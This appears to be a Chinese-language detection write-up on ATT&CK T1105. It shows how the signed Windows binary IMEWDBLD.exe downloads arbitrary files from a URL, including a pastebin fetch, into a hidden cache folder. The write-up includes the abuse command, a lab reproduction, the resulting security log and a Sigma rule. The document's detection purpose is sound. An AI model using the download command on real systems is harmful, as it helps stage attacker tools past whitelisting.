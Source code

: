 # T1105-win-入口工具转移-IMEWDBLD.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

IMEWDBLD.exe是微软拼音的开放扩展字典模块，主要用来下载字典文件，在Windows中主要存在路径为：

**路径:**

```yml
-   C:\Windows\System32\IME\SHARED\IMEWDBLD.exe
```

可以通过`C:\Windows\System32\IME\SHARED\IMEWDBLD.exe <URL>`进行下载任意文件，但是下载的路径为隐藏的文件/文件夹

并且路径为`C:\Users\%username%\AppData\Local\Microsoft\Windows\INetCache\IE\[随机值]`;

所以其利用方式是

```yml
C:\Windows\System32\IME\SHARED\IMEWDBLD.exe https://pastebin.com/raw/tdyShwLw
```

用例：从 Internet 下载文件
所需权限：用户
操作系统：Windows 10

查找下载文件路径：

```yml
forfiles /P "%localappdata%\Microsoft\Windows\INetCache" /S /M * /C "cmd /c echo @path"

> 参数介绍 
/P 表示开始搜索的路径。默认文件夹是当前工作的 目录 (.)。 
/S 指导forfiles递归到子目录。像"DIR /S"。
/M 根据搜索掩码搜索文件。默认搜索掩码是 '*'。 
/C 表示为每个文件执行的命令。命令字符串应该用双引号括起来。 
@path返回文件的完整路径
```

## 检测日志

windows安全日志

## 测试复现

```bash
C:\Users\liyang>C:\Windows\System32\IME\SHARED\IMEWDBLD.exe https://dldir1.qq.com/qqfile/qq/PCQQ9.5.9/QQ9.5.9.28650.exe

C:\Users\liyang>forfiles /P "%localappdata%\Microsoft\Windows\INetCache" /S /M * /C "cmd /c echo @path"

"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\Content.IE5"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\Low"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\Virtualized"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\container.dat"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\JKCC1BIU"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\DisabledFlights[1].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\dyntelconfig[2].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\RemoteSettings_Installer[1].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\ShippedFlights[1].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\tdyShwLw[1].txt"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\views[1]"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\windows-app-web-link[1].json"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\JKCC1BIU\QQ9.5.9.28650[1].exe" #文件已经被下载成功
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\JKCC1BIU\views[1]"
```

当执行下载任务时，Windows弹窗提示失败，忽略即可。实际上文件已经下载到本地目录中。

## 测试留痕

```yml
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x2278

新进程名称: C:\Windows\System32\IME\SHARED\IMEWDBLD.EXE

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x1ca8

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: C:\Windows\System32\IME\SHARED\IMEWDBLD.exe  https://dldir1.qq.com/qqfile/qq/PCQQ9.5.9/QQ9.5.9.28650.exe
```

## 检测方法/思路

### Sigma规则

```yml
title: IMEWDBLD白名单利用监测
status: experimental
date: 2022/04/20
author: 12306Br0
tags:
- attack.command_and_control
- attack.t1105
references:
- https://lolbas-project.github.io/lolbas/Binaries/IMEWDBLD/
- https://cloud.tencent.com/developer/article/1848645

logsource:
product: windows
category: security
selection:
   Image: C:\Windows\System32\IME\SHARED\IMEWDBLD.EXE
   CommandLine:http*//
condition: selection
falsepositives:
- Unknown
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

IMEWDBLD.exe

<https://lolbas-project.github.io/lolbas/Binaries/IMEWDBLD/>

IMEWDBLD.exe ByPass360 下载文件

<https://cloud.tencent.com/developer/article/1848645>
